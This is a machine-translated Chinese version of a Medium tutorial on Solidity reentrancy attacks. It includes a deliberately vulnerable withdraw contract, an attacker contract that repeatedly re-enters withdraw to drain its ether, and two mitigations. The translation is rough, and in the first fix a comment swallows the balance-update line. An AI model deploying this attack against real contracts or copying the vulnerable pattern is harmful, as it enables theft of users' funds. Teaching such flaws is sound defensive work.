


# 可重入性利用

> 原文：<https://medium.com/coinmonks/reentrancy-exploit-ac5417086750?source=collection_archive---------0----------------------->

[https://www . ama . fans/graphical dot/post/0 x8a E6 fdb 9 c 256 acdce 326 b 324 ff 1ee 400 f 46d 79 e 78 a 03 a 11 BC 74 e 144 c 164124 b 5](https://www.ama.fans/graphicaldot/post/0x8ae6fdb9c256acdce326b324ff1ee400f46d79e78a03a11bc74e144c164124b5)



Solidity 支持三种在钱包和智能合约之间转移以太的方式。这些支持的传输以太网的方法是 send()、transfer()和 call.value()。这些方法的不同之处在于它们传递给传输的用于执行其他方法的气体量(如果接收方是智能合同)，以及它们处理异常的方式。发送()和调用()。如果失败，value()只会返回 false，但是 transfer()会抛出一个异常，该异常还会将状态恢复到函数调用之前的状态。这些方法总结如下



因此，您的 send()函数应该始终位于 require 语句中，以通知您执行失败。

在 transfer()的情况下，您在尝试执行时就知道您的事务不成功。

最后，在 call()的情况下，如果出现错误，它仍然会返回 false ，这就是为什么要记住`require()`的用法。与前两个功能的主要区别是**有机会通过**设置气体限制**。调用{value: _amount，gas: gasValue}("")** 。这是必要的，以防合同接收以太网的可支付功能执行复杂的逻辑，这需要大量的气体。

一个契约最多可以有一个使用`receive() external payable { ... }`声明的`receive`函数(没有`function`关键字)。这个函数不能有参数，不能返回任何东西，必须有`external`可见性和`payable`状态可变性。它在调用带有空 calldata 的协定时执行。这是在普通以太网传输上执行的功能(例如通过`.send()`或`.transfer()`)。如果不存在这样的函数，但是存在可支付的[回退函数](https://solidity.readthedocs.io/en/v0.6.10/contracts.html#fallback-function)，则回退函数将在普通以太网传输中被调用。如果 receive Ether 和 payable fallback 函数都不存在，则协定无法通过常规事务接收 Ether 并引发异常。

在最坏的情况下，回退功能只能依靠 2300 气体可用(例如当使用`send`或`transfer`时)，几乎没有空间来执行除基本测井之外的其他操作。以下操作将消耗比 2300 汽油津贴更多的汽油:

*   写入存储
*   创建合同
*   调用消耗大量气体的外部函数
*   发送以太网

但近年来，使用 call()函数传输以太而不是传输和发送已经成为一种规范，原因如下:任何使用`transfer()`或`send()`的智能合同都是通过转发固定量的天然气来硬依赖天然气成本:2300。

更多阅读这里:[https://diligence . consensys . net/blog/2019/09/stop-using-soliditys-transfer-now/](https://diligence.consensys.net/blog/2019/09/stop-using-soliditys-transfer-now/)

这整个背景对于理解重入攻击是必要的。让我们考虑下面的合同:

```
// SPDX-License-Identifier: Unlicensed
pragma solidity ^0.6.10;contract EtherRentrancy {

    mapping (address => uint256) public balances;
    address public owner;

    constructor() public {
        owner = msg.sender;
    }

    function deposit() public payable{
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint _amount) public {
        require (balances[msg.sender] >= _amount, "Insufficient funds");

        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send funds");

        balances[msg.sender] -= _amount;
    }

    function getBalance() public view returns(uint){
        return address(this).balance;

    }

}
```

在这个契约中，任何有效的以太坊地址都可以通过存款功能存入以太，并可以通过取款功能提取他们的以太。

这是我们将用来从上述合同中抽干所有资金的合同。

```
contract HelloBreaksLoose{
    EtherRentrancy etherrentrancy;

    constructor(address _etherrentrancy) public {
        etherrentrancy = EtherRentrancy(_etherrentrancy);
    } receive() external payable {
        if (etherrentrancy.getBalance() >= 1 ether){
            etherrentrancy.withdraw(1 ether);

        }
    } function attack() external payable{
        require(msg.value >= 1 ether);
        etherrentrancy.deposit{value: msg.value}();
        etherrentrancy.withdraw(1 ether);

    }
    function getBalance() public view returns(uint){
        return address(this).balance;

    }}
```

应该使用以太网协议的地址部署该协议。

下面是调用这个契约的函数 **attack()** 时的执行步骤:Step1: attack()，

第二步:在以太网租赁合同上用 1 个以太网存款()；

第三步:撤销()以太网租约函数；

step 4:retract()函数反过来会调用 HelloBreaksLoose 的 receive 函数；

步骤 5: receive 函数将再次调用 withdraw()函数；

最后两步——步骤 3 和步骤 4——将循环运行，直到 EtherRentrancy 的余额小于 1 ether。

有两种方法可以阻止这种攻击:

1.  更改撤销函数:在从契约中进行任何外部调用之前，更新状态变量。

```
function withdraw(uint _amount) public {
        require (balances[msg.sender] >= _amount, "Insufficient f unds");
       //Now, update to state variable balances is happening before        // the call, the attacker wouldnt be able to withdraw
       // funds more than he/she deposited. Subsequent calls into 
       //this function will fail as the depositor will not have 
        // funds. balances[msg.sender] -= _amount;
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send funds");

    }
```

2.使用修饰符 blockRentrancy:其思想是在契约的任何功能被执行时锁定契约，因此一次只能执行契约中的一个功能。

```
bool internal locked; //only contract can change this variablemodifier blockRentrancy { require(!locked, "Contract is locked");
    locked = true;
     _;
     locked = false; //set locked = false after completion of      
                     // function execution}//Use this modifier in contract functions
function withdraw(uint _amount) public blockRentrancy{ .....}
```

## 另外，阅读

*   最好的[密码交易机器人](/coinmonks/crypto-trading-bot-c2ffce8acb2a)
*   [密码本交易平台](/coinmonks/top-10-crypto-copy-trading-platforms-for-beginners-d0c37c7d698c)
*   最好的[加密税务软件](/coinmonks/best-crypto-tax-tool-for-my-money-72d4b430816b)
*   [最佳加密交易平台](/coinmonks/the-best-crypto-trading-platforms-in-2020-the-definitive-guide-updated-c72f8b874555)
*   最佳[加密贷款平台](/coinmonks/top-5-crypto-lending-platforms-in-2020-that-you-need-to-know-a1b675cec3fa)
*   [最佳区块链分析工具](https://bitquery.io/blog/best-blockchain-analysis-tools-and-software)
*   [加密套利](/coinmonks/crypto-arbitrage-guide-how-to-make-money-as-a-beginner-62bfe5c868f6)指南:新手如何赚钱
*   最佳[加密制图工具](/coinmonks/what-are-the-best-charting-platforms-for-cryptocurrency-trading-85aade584d80)
*   [莱杰 vs 特雷佐](/coinmonks/ledger-vs-trezor-best-hardware-wallet-to-secure-cryptocurrency-22c7a3fd391e)
*   了解比特币最好的[书籍有哪些？](/coinmonks/what-are-the-best-books-to-learn-bitcoin-409aeb9aff4b)
*   [3 商业评论](/coinmonks/3commas-review-an-excellent-crypto-trading-bot-2020-1313a58bec92)
*   [AAX 交易所评论](/coinmonks/aax-exchange-review-2021-67c5ea09330c) |推荐代码、交易费用、利弊
*   [Deribit 审查](/coinmonks/deribit-review-options-fees-apis-and-testnet-2ca16c4bbdb2) |选项、费用、API 和 Testnet
*   [FTX 密码交易所评论](/coinmonks/ftx-crypto-exchange-review-53664ac1198f)
*   [零审核](/coinmonks/ngrave-zero-review-c465cf8307fc)
*   [Bybit 交换审查](/coinmonks/bybit-exchange-review-dbd570019b71)
*   [3Commas vs Cryptohopper](/coinmonks/cryptohopper-vs-3commas-vs-shrimpy-a2c16095b8fe)
*   最好的比特币[硬件钱包](/coinmonks/the-best-cryptocurrency-hardware-wallets-of-2020-e28b1c124069?source=friends_link&sk=324dd9ff8556ab578d71e7ad7658ad7c)
*   最佳 [monero 钱包](https://blog.coincodecap.com/best-monero-wallets)
*   [莱杰 nano s vs x](https://blog.coincodecap.com/ledger-nano-s-vs-x)
*   [bits gap vs 3 commas vs quad ency](https://blog.coincodecap.com/bitsgap-3commas-quadency)
*   [莱杰 Nano S vs 特雷佐 one vs 特雷佐 T vs 莱杰 Nano X](https://blog.coincodecap.com/ledger-nano-s-vs-trezor-one-ledger-nano-x-trezor-t)
*   [block fi vs Celsius](/coinmonks/blockfi-vs-celsius-vs-hodlnaut-8a1cc8c26630)vs Hodlnaut
*   Bitsgap 评论——一个轻松赚钱的加密交易机器人
*   [Quadency Review](/coinmonks/quadency-review-a-crypto-trading-automation-platform-3068eaa374e1) -为专业人士打造的加密交易机器人
*   [PrimeXBT 评论](/coinmonks/primexbt-review-88e0815be858) |杠杆交易、费用和交易
*   [埃利帕尔泰坦评论](/coinmonks/ellipal-titan-review-85e9071dd029)
*   [SecuX Stone 评论](https://blog.coincodecap.com/secux-stone-hardware-wallet-review)
*   [BlockFi 评论](/coinmonks/blockfi-review-53096053c097) |从您的密码中赚取高达 8.6%的利息